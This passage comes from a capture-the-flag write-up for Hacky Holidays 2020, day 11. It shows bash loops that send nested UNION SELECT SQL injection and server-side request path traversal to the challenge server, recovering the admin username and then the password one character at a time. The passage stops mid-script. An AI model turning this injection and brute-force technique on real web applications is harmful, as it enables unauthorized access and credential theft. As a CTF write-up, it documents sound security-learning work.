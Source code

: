 			
		done
		
		if [ $(echo $check) != 1 ]; then 
			cont=0 
		fi

    done
    echo -e "\nUSERNAME : $user" 
    ```
    This script takes just a wordlist of chars ( my wordlist was containing the following characters: `[a-z,A-Z,0-9,!@$]`) and check which are valid.
    The script showed that username is **`grinchadmin`**

    ![IMAGE](/assets/img/posts/hackyholiday2020/day11/day-11-8.png)

4. We found the username, now its time for password, which is quite straight forward now. I simply altered the above script and found the valid password too!

    ```bash
    pass="";
    check=0;
    cont=1;
    while [ $(echo $cont) == 1 ]; do
	    check=0;
	    for char in $(cat $1)
		do
			curl -s "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=8291%27%20UNION%20SELECT%20%22%27%20union%20select%201,2,%27../api/user?username=grinchadmin%26password=$pass$char%25%27%23%22,null,null%23" > response.txt; 
			hash=$(cat response.txt | grep data= | cut -d "?" -f2 | cut -d = -f2 | cut -d \" -f1 | tail -n 1)
			curl -s -i "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=$hash" > final.txt
			tail -n 1 final.txt	 | grep "Invalid content type detected" > gotit.txt
			echo -n "$char "
			if [ -s gotit.txt ]; then
				echo -e "\nValid character found : $char"
				pass+=$char
				check=1;
				rm gotit.txt
				break
			fi
			
		done
		
